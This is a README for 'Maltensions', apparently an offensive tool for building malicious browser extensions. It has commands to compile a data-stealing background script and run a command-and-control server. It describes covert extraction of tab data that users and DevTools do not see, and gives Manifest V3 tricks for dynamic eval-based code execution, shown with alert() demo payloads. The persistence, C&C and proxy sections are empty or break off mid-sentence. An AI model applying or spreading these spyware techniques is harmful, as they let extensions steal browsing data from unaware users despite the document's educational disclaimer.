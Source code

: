 # Maltensions
This is A BETA-Version for Maltensions -> Post-Exploitation methods inside any .extension



## How To Install/Test?
1. Select an Post-Exploitation module (i.e: tabs / mail / proxy / fs / etc).
2. Configure Post-Exploit arguments (args like cc-server and such).
3. Inject this module as script in background context (unpacked-mode / inside other extension with xss & such).

* Compile maltension JS file with (BETA VERSION ONLY - listens over localhost:8080):
```
python3 maltension.py -m mail tabs proxy fs 
```
* Run The simple C&C Server with (for example - listens on localhost:8080):
```
python3 server.py -p8080
```

## NOTES
* The output will be in malty folder under background.js filename.
* For more arguments & explanations, place the arg "--help" and see the results.  
* Look also at the modules folder JS files - that contains the real deal kinda :)
* THIS IS BETA VERSION only - mainly focuses on showing the techniques & such... so yes yes yes - coolish bugs and such might exists inside... but you're welcome to help & continue developing this while giving proper credits & such - Thanks!!! :)
* Please run inside some sadnbox or something like that, this tool is just for educational purposes only, author is not responsible for any damage.

## LEGAL DISCLAIMER 
Usage of Maltensions Tool for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. 
Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.

*For real - this is only for educational purposes & not for harm to be done anywhere!!!

## Background extraction
1. Main Required permissions: tabs
2. The technique: Inject dynamic code to "steal" all info and return it back to background context with messaging, that way, users and sites aren't aware of data extraction (DevTools is empty), and the background context can send this data at arbtirary times when he is choosing to.
* Example code for dynamic execution:
```
chrome.tabs.executeScript(tabId= 1000, {code:"alert()", allFrames: true})
```

* In Manifest V3: tabs, scripting. 
* Even though mv3 doesn't natively support script execution - This is manifest-v3 compatible also (using function definition). 
* 		

* Tracking newly opened tabs:
chrome.tabs.onCreated.addListener(e=>console.log("New tab opened, ID=" + e.id + ", JSON Printing:" + JSON.stringify(e)));
* 


* Bonus - Hidden techniques for MV3:

1. Dynamic code execution from background: 
 ```
 chrome.tabs.create({active: false, 
 	'url': 'javascript:eval("alert(\\"dynamic code executed!\\")")'});
 ```

 Then, from the newly opened page - the malicious extension can then post messages back to background to call specific API's as needed.
2. Also, another way is to inject eval/other inline executionable function & then add argument for that function:

```
	function dynamicExec(code) {
		eval(code);
	}
    var results = await chrome.scripting.executeScript({
      target: {
        tabId: tab.id,
      },
      func: dynamicExec,
      args: ["alert('Dynamic code executed!');"],
    });
```

## Persistency & Configuration Features
Depending on the method of 

This example injects new configuration variable inside the background context of arbitrary extension.

The name of the configuration is configurable.


## Encrypted Storage & C&C



## Proxy Communication

Dependant on m
